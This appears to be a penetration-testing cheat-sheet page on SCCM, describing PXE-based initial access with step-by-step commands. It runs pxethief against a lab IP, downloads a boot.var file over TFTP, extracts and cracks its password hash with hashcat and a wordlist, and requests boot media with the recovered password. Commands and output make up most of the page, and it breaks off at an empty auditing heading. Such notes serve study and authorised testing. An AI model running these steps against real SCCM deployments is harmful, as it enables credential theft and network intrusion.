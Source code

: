 ```yaml
---
description: System Center Configuration Manager
---
```


# SCCM

It enables centralized management of resources and systems. It offers functions, like installing and uninstalling applications, configuring network and application parameters, and deploying patches and updates.

{% hint style="info" %}
SCCM enables IT administrators to handle a wide range of tasks from a single platform.
{% endhint %}

### <mark style="color:yellow;">PXE initial access</mark>

The `Pre-Boot Execution Environment` (`PXE`) is a mechanism for booting a computer over the network.

```sh
python .\pxethief.py 2 172.50.0.30
```

if the output says User configured password detected we need to crack thet password. By getting the boot.var

```powershell-session
PS C:\Tools> tftp -i 172.50.0.30 GET "\SMSTemp\2024.05.19.13.06.09.0001.{48463D2D-ABD9-4697-8665-D75CDA255804}.boot.var" "2024.05.19.13.06.09.0001.{48463D2D-ABD9-4697-8665-D75CDA255804}.boot.var"
Successful transfer: 12776 bytes in 1 second(s), 12776 bytes/s
```

Then generate the hash with option 5

```powershell-session
PS C:\Tools> python .\pxethief.py 5 '.\2024.05.19.13.06.09.0001.{48463D2D-ABD9-4697-8665-D75CDA255804}.boot.var'
```

Crack the hash

<details><summary>Needed hashcat module</summary></details>

```shell-session
hashcat/hashcat -m 19850 --force -a 0 hashcat/hash /usr/share/wordlists/rockyou.txt
```

Request boot media

```powershell-session
python .\pxethief.py 3 '.\2024.05.19.13.06.09.0001.{48463D2D-ABD9-4697-8665-D75CDA255804}.boot.var' "Password123!"
```

### <mark style="color:yellow;">SCCM Auditing</mark>
